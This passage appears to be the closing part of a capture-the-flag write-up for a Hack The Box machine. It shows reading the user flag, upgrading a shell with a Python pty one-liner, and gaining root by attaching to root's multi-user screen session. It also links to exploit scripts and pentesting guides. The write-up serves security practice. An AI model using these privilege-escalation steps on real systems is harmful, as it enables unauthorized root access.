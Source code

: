 ```bash
```

We can capture the user flag.
```bash
cd
cat user.txt
```


### Privilege Escalation

#### Upgrading the shell
We can upgrade the shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### Identifiying screen missconfiguration
In the process that we list above, we also can see a [screen][screen man] process.

A screen can be attached if multi-user is enabled.

To list the screen a user is running, just run the command
```bash
screen -ls $USER/
```

If we try this for root:
```bash
screen -ls root/
```
Output:
```
There is a suitable screen on:
        952.root        (09/07/22 17:31:21)     (Multi, detached)
1 Socket in /run/screen/S-root.
```

We can see that root user is running a screen called root and it's suitable for us.
We can attatch to it.

```bash
screen -r root/root
```
POUM!💣
Now we are inside root user and we can capture the flag.


Thank's all for reading!📙

[screen man]: https://linux.die.net/man/1/screen

[Bash script dt]: https://github.com/isuckatlinux/htbmachines/blob/main/backdoor/exploits/dt.sh
[Bash script list]: https://github.com/isuckatlinux/htbmachines/blob/main/backdoor/exploits/list_process.sh

[HackTricks guide]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress
[HackTricks GdbServer]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver


[wordpress5.8.1vuln]: https://wpscan.com/wordpress/581

[port1337]: https://www.speedguide.net/port.php?port=1337

